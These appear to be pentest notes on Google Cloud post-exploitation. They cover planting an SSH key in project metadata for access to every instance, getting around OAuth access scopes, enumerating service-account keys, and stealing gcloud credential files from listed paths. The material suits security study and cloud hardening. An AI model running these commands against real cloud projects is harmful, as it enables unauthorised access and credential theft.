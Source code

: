 - by adding one’s SSH key to the project metadata, access to all instances can be achieved as long as the instance does not have the `Block pojrect-wide SSH keys` option enabled:
    
    `gcloud compute project-info add-metadata --metadata-from-file ssh-keys=my_public_ssh-key.txt`
    

### Bypassing Access Scopes

Access scopes are not a security mechanism (stated by Google themselves)

**Find Token Access Scopes**

```bash
TOKEN='gcloud auth print-access-token'
curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=$TOKEN
```

- access scopes have “no effect when making requests not authenticated through OAuth”
    - search for an RSA private key to authenticate to the Google Cloud API and request a new OAuth token
        
        `gcloud auth activate-service-account --key-file <FILE>`
        

**Check for Service Accounts with Exported Key Files**

```bash
for i in $(gcloud iam service-accounts list --format="table[no-heading](email)"); do
    echo Looking for keys for $i:
    gcloud iam service-accounts keys list --iam-account $i
done
```

- default name for service account key file is `<PROJECT_ID>-<PORTION_OF_KEY_ID>.json`

- if access scopes are too restrictive, check if there is another instance that is more permissive
    - `gcloud compute instances list --quiet`
- check if an instance has the default service account (`PROJECT_NUMBER-compute@developer.gserviceaccount.com`)

### Steal GCloud Authorizations

- look for the following files:

```bash
~/.config/gcloud/credentials.db
~/.config/gcloud/legacy_credentials/[ACCOUNT]/adc.json
~/.config/gcloud/legacy_credentials/[ACCOUNT]/.boto
~/.credentials.json
```

## Service Account Impersonation

Three ways to impersonate a service account:

1. Authentication using RSA private keys 
2. Authorization using Cloud IAM policies 
3. Deploying jobs on GCP services 
